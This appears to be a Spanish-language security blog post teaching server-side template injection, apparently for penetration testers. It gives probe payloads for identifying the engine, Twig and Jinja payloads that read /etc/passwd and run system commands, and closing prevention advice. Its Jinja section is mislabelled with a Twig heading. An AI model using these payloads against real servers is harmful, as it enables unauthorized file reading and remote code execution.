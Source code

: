 ```yaml
---
date: 2025-10-20T16:15:05.000Z
layout: post
comments: true
title: "Server-side Template Injection"
subtitle: 'SSTI'
description: >-
image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/sstilogo.png
optimized_image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/sstilogo.png
category: ciberseguridad
tags:
  - web
  - rce
  - owasp
  - php
  - ssti
author: Felipe Canales Cayuqueo
paginate: true
---
```


La inyección de plantillas del lado del servidor (SSTI) ocurre cuando un atacante logra insertar código dentro de una plantilla que luego es procesada por el servidor. Esto permite que el código malicioso se ejecute durante el renderizado, pudiendo comprometer por completo el sistema. La vulnerabilidad surge cuando la aplicación inserta directamente la entrada del usuario en la plantilla antes de renderizarla, o cuando el mismo contenido renderizado se vuelve a procesar, provocando que la entrada del usuario sea tratada como parte del código de plantilla.

### Identificación

Para poder confirmar la vulnerabilidad se debe provocar un mensaje de error en la aplicación web con el siguiente payload.

`
${{<%[%'"}}%\.
`

Tras identificar la posible vulnerabilidad, se debe determinar el motor de plantilla utilizado por la aplicación web a través de la siguiente tabla. 

[![ssti7](/images/ssti7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti7.png)

#### Payloads

* `${7*7}`
* `a{*comment*}b`
* `${"z".join("ab")}`
* `{{7*7}}`
* `{{7*'7'}}`

#### Ejemplo

* Primero ingresamos ```${7*7}```, como no se interpretó significa que debemos seguir de la tabla la flecha que dice "no funciona".
 
    [![ssti1](/images/ssti1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti1.png)

    [![ssti2](/images/ssti2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti2.png)

* La tabla nos indica que debemos ahora probar con el payload `{{7*7}}`, con el cual obtenemos éxito y se interpreta.

    [![ssti3](/images/ssti3.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti3.png)

    [![ssti4](/images/ssti4.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti4.png)

* Como funcionó ahora debemos validar `{{7*'7'}}` donde obtenemos como resultado 49, es decir siguiendo la tabla nos estamos enfrentando ante un motor de plantillas "Twig".

    [![ssti5](/images/ssti5.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti5.png)

    [![ssti6](/images/ssti6.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti6.png)


### Explotación de Twig

Para este caso tenemos ciertas funciones internas para obtener más información e incluso obtener acceso al sistema.

#### Divulgación de información

Con la función ```_self``` es posible obtener más información de la plantilla.

```
{{ _self }}
```


#### Local File Inclusion

El marco web PHP Symfony define filtros Twig adicionales y uno de estos filtros es ```file_excerpt``` que permite leer archivos locales del sistema.

```
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

#### Ejecución remota de comandos (RCE)

Para lograr la ejecución remota de código, podemos utilizar una función incorporada de PHP como ```system```. Podemos pasar un argumento a esta función usando ```filter```.

```
{{ ['id'] | filter('system') }}
```

### Explotación de Twig

Jinja es un motor de plantillas utilizado en frameworks de Python como Flask o Django. En este tipo de vulnerabilidad, el atacante puede aprovechar que Jinja permite acceder a bibliotecas ya importadas por la aplicación, tanto de forma directa como indirecta, e incluso importar nuevas mediante la instrucción ```import```, lo que amplía su capacidad para ejecutar código malicioso en el servidor.

#### Divulgación de información

Es posible obtener información interna sobre el sistema, incluidos detalles de configuración e incluso el código fuente de la aplicación web.

```
{{ config.items() }}
```

También podemos obtener información sobre las funciones integradas disponibles en el código fuente.

```
{{ self.__init__.__globals__.__builtins__ }}
```

#### Local File Inclusion

Para explotar esta vulnerabilidad debemos utilizar la función incorporada de Python ```open``` en conjunto con ```__builtins__```.

```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

#### Ejecución remota de comandos (RCE)

Para lograr la ejecución remota de comandos debemos utilizar funciones proporcionadas por el módulo ```os```, ```system``` o ```popen```.

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

> Se recomienda la herramienta automatizada [SSTImap](https://github.com/vladko312/SSTImap).

### Recomendaciones

Para prevenir vulnerabilidades SSTI, es fundamental garantizar que la entrada del usuario nunca se inserte directamente en las plantillas antes del proceso de renderizado. Se debe validar y sanear toda entrada, evitando que contenga caracteres o estructuras que puedan ser interpretadas como código. Además, los datos del usuario deben pasar únicamente como valores de contexto y no como parte del código de plantilla. Es recomendable utilizar motores de plantillas configurados con opciones de seguridad activadas, eliminar funciones peligrosas como eval o import, y aislar el entorno de ejecución mediante contenedores o entornos separados.
